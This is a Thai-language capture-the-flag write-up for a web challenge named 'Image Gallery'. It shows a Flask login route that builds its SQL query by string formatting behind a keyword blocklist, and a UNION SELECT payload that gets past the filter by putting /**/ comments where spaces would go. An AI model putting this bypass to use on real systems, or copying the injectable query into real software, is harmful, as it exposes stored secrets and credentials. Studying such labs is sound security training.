

# web/Image Gallery

## schema.sql
```sql
CREATE TABLE IF NOT EXISTS login_details (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    username TEXT NOT NULL,
    password TEXT NOT NULL
, secret TEXT);
```
คือเขาให้มาแค่นี้จริงๆ ผมก็เลยเดาว่า flag น่าจะอยู่ใน secret

## main.py
```python
...
@app.route("/login", methods=["POST", "GET"])
def login():
    if "logged_in" in session and session["logged_in"]:
        session.pop("logged_in", None)
        return redirect(url_for("login"))

    if request.method == "POST":
        username = request.form["username"]
        password = request.form["password"]
        loweruser = username.lower()
        lowerpass = password.lower()
        invalid_entries = invalid_entries = [
            "=",
            "<",
            ">",
            "+",
            "//",
            "|",
            ";",
            " ",
            " ",
            "'1",
            " 1",
            " true",
            "'true",
            " or",
            "'or",
            "/or",
            " and",
            "'and",
            "/and",
            "'like",
            " like",
            "/like",
            "'where",
            " where",
            "/where",
            "%00",
            "null",
            "admin'",
        ]
        matching_value = next(
            (
                value
                for value in invalid_entries
                if value in loweruser or value in lowerpass
            ),
            None,
        )
        if matching_value:
            error = (
                f"Invalid entry in username and/or password fields. Please try again."
            )
            return render_template("login.html", error=error)

        conn = sqlite3.connect("chal.db")
        cursor = conn.cursor()

        query = f"SELECT secret FROM login_details WHERE username = '{username}' AND password = '{password}';"

        result = cursor.execute(query)
        user = result.fetchone()

        conn.close()

        if user:
            session["logged_in"] = True
            session["username"] = username
            session["secret"] = user[0]
            return redirect(url_for("profile"))
        else:
            error = "Invalid login credentials. Please try again."
            return render_template("login.html", error=error)

    return render_template("login.html")
...
```

ครับจะเห็นว่ามัน sql injection ได้แหละ แต่มัน ignore famous command เลยต้อง research command ที่มันไม่มีอยู่ใน ignore list นี้

แล้วผมก็ไปเจอว่า /**/ การ comment แบบนี้ใน sql มันจะกลายเป็นช่องว่าง ก็~~แจ๋วสิครับ งั้นเราก็มา build payload กัน

## payload
```
'/**/union/**/select/**/secret/**/from/**/login_details--
```

ครับเข้าได้จริง แต่มันให้มาเป็น jwt token และข้างในจะมีโค้ด js ที่ถูก obfuscate หลังจากนั้นก็เดากันเอาเองคั้บบ

